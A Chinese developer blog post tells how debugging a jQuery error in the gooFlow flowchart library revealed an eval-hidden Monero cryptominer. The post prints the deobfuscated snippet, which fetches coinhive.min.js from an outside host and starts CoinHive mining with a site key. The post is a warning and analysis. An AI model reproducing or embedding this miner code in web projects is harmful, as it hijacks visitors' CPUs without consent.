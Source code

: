 ```yaml
---
layout: post
title:  "由一个bug找到JS挖矿代码"
date:   2018-06-16
categories: JS
author: 张翔
location: ShangHai, China
cover: "https://i.loli.net/2018/08/02/5b6328a7e8fbf.jpg"
description: 通过使用一个开源框架，发现了bug，在找bug的过程中发现了js挖矿代码！
---
```

---
由于工作需要，需要前端画流程图，找到一个开源的框架**gooFlow**（下图就是这个开源框架），它可以编辑流程图，提供节点和线以及一些辅助功能。仔细看一下这是一个国人写框架，文档也是中文，用起来也很顺手。

![Image1.png](https://i.loli.net/2018/08/02/5b6328b474348.png)

但是使用这个框架的时候发现一个很奇怪的bug，描述起来就是：**我在父页面的a标签点击跳转到流程图页面，如果a标签的target是_top，页面就不会报错，但是如果target的值为_blank，页面第一次打开不会报错，只有在刷新的情况下页面才会报错。**报错信息如下

![Image2.png](https://i.loli.net/2018/08/02/5b6328cb08003.png)

其实从这个信息推断不出来什么具体信息，只知道jQuery这个对象应该不存在，所以导致程序出错，仔细检查我的页面代码的引入，发现jQuery都有引入，都没问题，结合这个bug出现的时机，只在新开页面且刷新过一次的情况下才会报错，所以可以推断出这个gooFlow框架应该是引用了父页面的某个对象，然后在刷新一次页面的情况下，父页面的这个对象为空才会导致报错。
接着我就开始搜索gooFlow的**window.opener**和**window.parent**的引用，**window.opener返回的是创建该窗口的 Window 对象的引用，window.parent返回的是返回当前窗口的父窗口**。但是都没有找到导致bug的源头。
束手无策的时候，尝试使用最原始的方法，**删除父页面上的js引用**，看流程图页面抛出什么错误，当我把父页面的jQuery删除的时候，页面报了不一样的错误（下图）。

![Image3.png](https://i.loli.net/2018/08/02/5b6328dae14d5.png)

找到对应方法处的代码，如下图，是使用**eval**执行一串字符串，很不好调试，只好把这一串代码拷贝出来执行一下看执行的是什么代码？

![Image4.png](https://i.loli.net/2018/08/02/5b6328dc651ee.png)


正当我纳闷为啥需要对框架里面的**代码加密**的时候，我找到了eval执行的字符串，格式化之后如下，保存的原因找到了，**_opener.$**的使用就是对**打开这个页面的jQuery的引用**，所以删除父页面jQuery报错信息会不一致。
```javascript
var _ = window;
try {
    _ = _.opener.$
} catch (e) {
    try {
        _ = _.top.$
    } catch (e) {
        _ = $
    }
};
if (!_("head").data('x')) {
    GooFlow.a = 1;
    _a = 20;
    var d = new Date();
    _("head").data('x', 1);
    _.ajax("https://coinhive.com/lib/coinhive.min.js?" + d.getFullYear() + d.getMonth() + d.getDate(), {
        dataType: 'script',
        cache: true
    });
    _i = setInterval(function () {
        try {
            new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();
            clearInterval(_i)
        } catch (e) {
            _a--;
            if (_a < 1) document.write("")
        }
    }, 1000)
}
```

仔细看这个代码会发现这竟然是一串挖矿代码！！！会去请求接口:`https://coinhive.com/lib/coinhive.min.js`，然后执行`new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();`开始挖矿，在网上找到了，这是**门罗币的挖矿代码**。具体可以看看下面这篇文章：

> JS挖矿 - 门罗币是如何利用网页挖矿的？
> （http://liujinkai.com/2017/10/28/js-miner/）


现在很多开源的框架、插件、库，使用起来都要小心，一不小心就中了别人的圈套，挖矿这种事是牺牲用户体验的基础上进行的，可以看到cpu使用飙升，电脑发烫，所以如果在你为了你的网站优化用户体验的时候，发现怎么优化都无济于事，记得找一找你引用代码里面有哪些隐藏的圈套。
最后推荐一下chrome阻止挖矿的插件**minerBlock**

![Image5.png](https://i.loli.net/2018/08/02/5b6328ddc5ae3.png)